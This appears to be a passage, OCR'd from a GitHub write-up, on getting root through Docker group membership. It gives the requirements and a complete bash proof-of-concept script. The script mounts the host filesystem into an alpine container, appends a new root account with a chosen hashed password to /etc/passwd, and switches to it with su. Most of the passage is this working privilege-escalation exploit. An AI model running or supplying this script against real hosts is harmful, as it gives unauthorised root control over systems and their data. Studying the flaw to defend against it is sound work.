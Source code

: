 **6. Remove the `new_account` file and login as root to the host.**   

* * * 
## 5- POC Script

Requirements:

- Access to a shell on the target with a user which can run Docker.
- The target should have either an internet connection or an image installed in Docker. Use **`docker images`** to check and change the "alpine" image accordingly. If there is no image go to [https://hub.docker.com](https://hub.docker.com) to get one (tar.gz file with its Dockerfile) and upload it on the target in your working directory.


Now let's put this down in a bash script:

```bash
#!/bin/bash

docker_test=$( docker ps | grep "CONTAINER ID" | cut -d " " -f 1-2 ) 

if [ "$docker_test" == "CONTAINER ID" ]; then
	echo 'Please write down your new root credentials.'
    read -p 'Choose a root user name: ' rootname
    read -s -p 'Choose a root password: ' passw
    echo ""
    read -p 'Choose the the salt to hash your password: ' salt
    hpass=$(openssl passwd -1 -salt $salt $passw)

    echo -e "$rootname:$hpass:0:0:root:/root:/bin/bash" > new_account
    mv new_account /tmp/new_account
    docker run -tid -v /:/mnt/ --name flast101.github.io alpine # CHANGE THIS IF NEEDED
    sleep 1; echo 'Please wait...'; sleep 1; echo 'Running coker container...'; sleep 1; echo 'Creating root user...';
    docker exec -ti flast101.github.io sh -c "cat /mnt/tmp/new_account >> /mnt/etc/passwd"
    sleep 1; echo '...';
    
    echo 'Success! Root user ready. Enter your password to login as root:'
    docker rm -f flast101.github.io
    rm /tmp/new_account
    su $rootname

elif [ $(id -u) -eq 0 ]; then
    echo "The user islready root. Have fun ;-)"
    exit

else echo "Your account does not have permission to execute docker, aborting..."
	exit

fi
```
Example:
